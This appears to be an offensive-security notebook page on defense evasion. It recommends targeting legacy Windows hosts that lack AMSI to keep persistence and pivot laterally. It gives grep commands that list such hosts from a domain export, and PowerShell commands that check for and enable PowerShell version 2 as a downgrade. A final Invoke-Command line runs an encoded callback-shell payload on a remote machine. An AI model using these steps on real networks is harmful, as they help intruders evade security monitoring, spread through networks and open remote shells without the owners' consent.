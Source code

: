 # Description

The best defense evasion which is the most efficient way is to find legacy operating systems to lay a low profile in the network traffic to establish persistence to maintain access. Especially these legacy systems do not contain up-to-date security solutions. The main benefit is it is not required to re-implement the implant. It is easier to laterally pivot the machines with little effort.

## 01 - Windows Systems Table List

| Operating System       | Installed PowerShell version | Supported PowerShell Version |
| ---------------------- | ---------------------------- | ---------------------------- |
| Windows 7              | 2.0                          | 2.0, 3.0, 4.0, 5.0, 5.1      |
| Windows Server 2008 R2 | 2.0 (*\*)                    | 2.0, 3.0, 4.0, 5.0, 5.1      |
| Windows 8              | 3.0                          | 2.0, 3.0                     |
| Windows Server 2012    | 3.0                          | 2.0, 3.0, 4.0                |
| Windows 8.1            | 4.0                          | 2.0, 4.0, 5.0, 5.1           |
| Windows Server 2012 R2 | 4.0                          | 2.0, 4.0, 5.0, 5.1           |
| Windows 10             | 5.1                          | 2.0                          |
| Windows Server 2016    | 5.1                          | 2.0                          |

## 02 - Lack of AMSI Scanner

### 2.1 - Windows Servers

- Windows Server 2003

```
$ grep 'Windows Server 2003' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2003-output.txt
```

- Windows Server 2008 R2

```
$ grep 'Windows Server 2008' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2008-output.txt
```

- Windows Server 2012

```
$ grep 'Windows Server 2012' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2012-output.txt
```

### 2.2 - Windows Workstations

- Windows XP

```
$ grep 'Windows XP' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-xp-output.txt
```

- Windows 7

```
$ grep 'Windows 7' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-7-output.txt
```

## 03 - Downgrade Powershell

### 3.1 - Enumerate PowerShell Version 2

```
PS C:\> $PSVersionTable

PS C:\> Get-WindowsFeature PowerShell-V2

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-WindowsFeature PowerShell-V2 }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { $PSVersionTable }
```

### 3.2 - Install PowerShell Version 2

> [!INFO] Elevated Privileges is Required
> You must run this as administrator to install PowerShell version 2.

```
PS C:\> Enable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2

PS C:\> Enable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
```

### 3.3 - Execute Callback Shell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { powershell -version 2 -e <base64_payload> }
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Active Directory/0xB - Domain Controller/DC/Manual/Living off the Land|Living off the Land: Domain Controller]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Active Directory/0xC - Domain Computers/Offensive Tools/Scripts|PowerSploit: Active Directory Networking]]
